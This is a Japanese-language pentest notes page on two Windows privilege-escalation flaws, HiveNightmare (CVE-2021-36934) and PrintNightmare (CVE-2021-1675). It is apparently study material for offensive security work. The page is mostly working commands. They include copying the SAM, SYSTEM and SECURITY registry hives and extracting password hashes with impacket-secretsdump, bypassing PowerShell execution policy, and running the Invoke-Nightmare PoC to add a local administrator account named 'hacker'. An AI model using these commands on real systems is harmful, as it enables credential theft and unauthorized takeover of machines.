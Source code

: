 # Kernel Exploit

# CVE-2021–36934

CVE-2021-36934 HiveNightmare (別名 SeriousSam) は Windows 10 の欠陥であり、特権レベルに関係なく、あらゆるユーザーが Windows レジストリを読み取り、機密情報にアクセスする権限を持つ。研究者たちにより、SAM、SYSTEM、および SECURITY レジストリ ハイブの読み取りを許可し、後でオフラインで処理するためのコピーを作成し、SecretsDump.py などのツールを使用してパスワード ハッシュ (ローカル管理者を含む) を抽出できるようにする PoC エクスプロイトが開発された。

## SAM ファイルの権限を確認する

icacls を使用して SAM ファイルのアクセス許可を確認し、この脆弱性を確認できる。この例では、ファイルは BUILTIN\Users グループによって読み取り可能であるため、脆弱なバージョンが存在する

```
C:\hatto> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

## 攻撃の実行とパスワード ハッシュの解析

[HiveNightmare](https://github.com/GossiTheDog/HiveNightmare) を使用して攻撃を実行し、前述のレジストリ ハイブのコピーを作成する

```
.\HiveNightmare.exe
```

以下のファイルが作成される

```
SAM-2021-08-07
SYSTEM-2021-08-07
SECURITY-2021-08-07
```

攻撃マシンで `impacket-secretsdump` を使用して解析する

```
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```



# CVE-2021-1675

CVE-2021-1675は、Windows Print Spoolerサービスに関連する脆弱性で、「PrintNightmare」としても知られている。この脆弱性は、リモートコード実行 (RCE) を引き起こす可能性があり、攻撃者がリモートからシステムを制御できるようになる具体的には、Windows Print Spoolerサービスが印刷ジョブを処理する際のアクセス制御リスト (ACL) の不備を悪用することで、攻撃者は特権を持たないユーザーアカウントからでも任意のコードを実行できる可能性がある

## スプーラー サービスの確認

Spooler サービスが実行されているかどうかをすぐに確認できます。実行されていない場合は、 `path does not exist` というエラーが表示される

```
ls \\localhost\pipe\spoolss
```

## PrintNightmare PowerShell PoC を使用してローカル管理者を追加する

ターゲット ホストで実行ポリシーをバイパスする

```powershell-session
PS C:\hatto> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

実行に成功すると[Powershell script](https://github.com/calebstewart/CVE-2021-1675/tree/main)で新しいユーザーをローカル管理者グループに追加できる

```
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

追加されたかの確認

```
net user hacker
```